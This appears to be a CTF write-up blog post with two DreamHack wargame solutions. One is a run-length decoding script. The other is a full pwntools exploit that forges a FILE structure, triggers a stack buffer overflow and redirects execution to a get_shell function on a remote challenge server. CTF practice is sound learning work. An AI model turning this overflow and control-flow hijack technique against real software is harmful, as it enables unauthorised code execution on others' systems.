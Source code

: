```yaml
---
title: "Dream Hack Playround"
date: 2025-05-21
draft: false
tags: ["DreamHack", "Reverse-Engineering", "Pwnable"]
# categories: ["CTF Writeups"]
lightgallery: true
toc:
  enable: true
description: "Solutions for some challenges in BKCTF 2023 by ducdatdau"
---
```


Short solutions to several CTF challenges on the [Dream Hack wargame](https://dreamhack.io/wargame), focusing on topics such as pwn, rev, and forensics. 

<!--more-->

I don’t have much time for CTFs right now since I’m focusing on my study abroad applications. This series only covers easier challenges - I miss CTFs too much to quit completely.

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin-left: auto; 
    margin-right: auto;
}
</style>

# Dream Hack Wargame

## secret message | rev⭐⭐

- [Run Length Encoding Algorithm](https://www.geeksforgeeks.org/run-length-encoding/). Example: `raw = ABBBCCDDDDE` ➡️ `enc = ABB1CC0DD2E`. 

```python
from PIL import Image

with open("secretMessage.enc", "rb") as enc_file: 
    data = enc_file.read() 
    raw_file = open("secretMessage.raw", "wb") 

    idx = 0 
    
    while idx < len(data):
        if idx + 1 < len(data) and data[idx] == data[idx + 1]: 
            for j in range(data[idx + 2] + 2): 
                raw_file.write(data[idx].to_bytes(1, "little")) 
            idx += 3
        else: 
            raw_file.write(data[idx].to_bytes(1, "little")) 
            idx += 1

    raw_file.close() 

    with open("secretMessage.raw", "rb") as f:
        output = f.read()
        img = Image.frombytes("1", (500, 50), output)
        img.save("flag.png")

# raw = ABBBCCDDDDE -> enc = ABB1CC0DD2E.
```

## iofile_aw | pwn⭐⭐⭐

- Modify `FILE` structure to change `size` from 255 bytes to 0x1000 bytes. 
- Trigger a BOF bug. Since the stack canary is disabled, we can overwrite the return address with the address of `get_shell`.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iofile_aw_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
# p = process(exe.path) 
p = remote("host3.dreamhack.games", 21978)

# gdb.attach(p, gdbscript="""
#     b *0x400ba0
#     c 
# """)

# pause()

sz_addr = exe.symbols["size"]
shell_addr = exe.symbols["get_shell"]

payload = b"printf "
payload += p64(0xfbad208b)
payload += p64(0)               # _IO_read_ptr
payload += p64(0)               # _IO_read_end
payload += p64(0)               # _IO_read_base
payload += p64(0)               # _IO_write_base
payload += p64(0)               # _IO_write_ptr
payload += p64(0)               # _IO_write_end
payload += p64(sz_addr)         # _IO_buf_base

p.sendafter(b"# ", payload) 

p.sendafter(b"# ", b"read\x00") 
# input("Enter to continue")
p.sendline(p64(0x1000))         # size = 0x1000 

payload = b"exit\x00"
payload += b"A" * (0x228 - 5) 
payload += p64(shell_addr) 

p.sendafter(b"# ", payload) 

p.interactive()
```